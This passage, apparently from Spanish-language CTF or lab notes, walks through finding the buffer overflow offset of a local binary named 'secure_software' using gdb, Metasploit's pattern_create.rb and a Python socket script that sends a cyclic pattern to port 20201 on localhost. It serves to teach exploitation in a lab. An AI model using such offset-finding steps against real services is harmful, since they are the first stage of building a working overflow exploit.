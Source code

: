 ### Sacar offset

En el este punto lo más seguro es que sea vulnerable a un [Buffer OverFlow](<../../🐱‍💻 Introducción al Hacking/😎 Buffer OverFlow/Buffer OverFlow.md>) por lo que intentaremos sacar el **offset**, es decir la basura o junk que hay que introducir como input para que el programa pete, para poder realizar dicha acción nos abriremos el binario con gdb.

```bash
gdb secure_software -q
```

Gracias al siguiente comando generaremos un conjunto de caracteres el cual nos permitirá determinar el **offset**.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
```

Nos montamos este simple script de python para poder automatizar el proceso de conectarse a través del puerto **20201**.

```python
#!/usr/bin/env python3

import socket

ip_addr = "127.0.0.1"
port = 20201

pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A"

def main():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_addr, port))

    s.send(b"Enter Data: " + pattern + b"\r\n")


if __name__ == '__main__':

    main()
```

En gdb ejecutaremos el binario para ponerlo en escucha con la instrucción `r` (run):

![](<../images/Pasted image 20240914170814.png>)

